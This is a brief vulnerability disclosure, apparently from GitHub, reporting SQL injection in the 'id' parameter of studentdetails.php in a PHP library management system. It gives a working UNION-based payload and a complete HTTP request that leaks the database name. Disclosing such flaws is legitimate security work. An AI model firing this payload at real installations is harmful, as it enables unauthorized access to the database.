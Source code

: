 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/staff/studentdetails.php?id=

Vulnerability location: /LMS/staff/studentdetails.php?id=, id

[+] Payload: /LMS/staff/studentdetails.php?id=-1002416%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /LMS/staff/studentdetails.php?id=-1002416%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180441661-fe297409-9601-4b6d-b12b-4210190ff38e.png)
